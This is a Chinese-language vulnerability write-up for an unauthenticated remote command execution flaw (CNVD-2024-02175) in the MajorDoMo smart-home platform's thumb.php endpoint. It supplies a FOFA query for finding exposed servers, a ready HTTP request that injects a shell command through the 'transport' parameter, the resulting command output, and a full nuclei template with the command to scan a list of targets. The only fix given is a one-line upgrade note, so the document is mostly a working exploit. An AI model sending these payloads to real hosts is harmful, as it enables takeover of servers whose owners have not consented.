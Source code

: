 **漏洞名称**

MajorDoMo thumb.php 未授权远程代码执行漏洞

**漏洞影响**

MajorDoMo < 0662e5e版本

**漏洞描述**

MajorDoMo是MajorDoMo社区的一个开源DIY智能家居自动化平台。MajorDoMo 0662e5e之前版本/modules/thumb/thumb.php接口处存在未授权远程命令执行漏洞，未经授权的攻击者可以通过该漏洞获取到服务器权限。

**FOFA搜索语句**

```
app="MajordomoSL"
```

**漏洞复现**



POC(来自互联网)，主要是执行id命令并打印



```YAML

GET /modules/thumb/thumb.php?url=cnRzcDovL2EK&debug=1&transport=%7C%7C+%28echo+%27%5BS%5D%27%3B+id%3B+echo+%27%5BE%5D%27%29%23%3B HTTP/1.1
Host: x.x.x.x
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.159 Safari/537.36 Edg/92.0.902.84
Accept-Charset: utf-8
Accept-Encoding: gzip, deflate
Connection: close
```

响应内容如下，其中包含id命令相关内容即可

```YAML
	
HTTP/1.1 200 OK
Connection: close
Transfer-Encoding: chunked
Content-Encoding: gzip
Content-Type: text/html; charset=UTF-8
Date: Mon, 22 Apr 2024 02:22:10 GMT
Server: nginx/1.14.2

avconv -rtsp_transport || (echo '[S]'; id; echo '[E]')#; -v verbose -timelimit 15 -y -i "rtsp://a
" -r 5 -f image2 -vframes 1 ./cms/cached/thumb_4ea039b31dc743929d475b96816a8529rtspa<hr><pre>[S]
uid=1000(pi) gid=1000(pi) groups=1000(pi),4(adm),20(dialout),24(cdrom),27(sudo),29(audio),33(www-data),44(video),46(plugdev),60(games),100(users),105(input),109(netdev),997(gpio),998(i2c),999(spi)
[E]</pre>
```

漏洞复现完成

**nuclei poc**



poc 内容如下

```YAML
id: CNVD-2024-02175

info:
  name: MajorDoMo thumb.php 未授权远程代码执行漏洞
  author: fgz
  severity: critical
  description: MajorDoMo是MajorDoMo社区的一个开源DIY智能家居自动化平台。MajorDoMo 0662e5e之前版本/modules/thumb/thumb.php接口处存在未授权远程命令执行漏洞，未经授权的攻击者可以通过该漏洞获取到服务器权限。
  metadata:
    max-request: 1
    fofa-query: app="MajordomoSL"
    verified: true
requests:
  - raw:
      - |+
        GET /modules/thumb/thumb.php?url=cnRzcDovL2EK&debug=1&transport=%7C%7C+%28echo+%27%5BS%5D%27%3B+id%3B+echo+%27%5BE%5D%27%29%23%3B HTTP/1.1
        Host: {{Hostname}}
        User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.159 Safari/537.36 Edg/92.0.902.84
        Accept-Charset: utf-8
        Accept-Encoding: gzip, deflate
        Connection: close

    matchers:
      - type: dsl
        dsl:
          - "status_code == 200 && contains(body, 'uid') && contains(body, 'gid')"
        condition: and
```

运行POC

```
nuclei.exe -t mypoc/cnvd/CNVD-2024-02175.yaml -l data\2.txt
```

**修复建议**



升级到最新版本。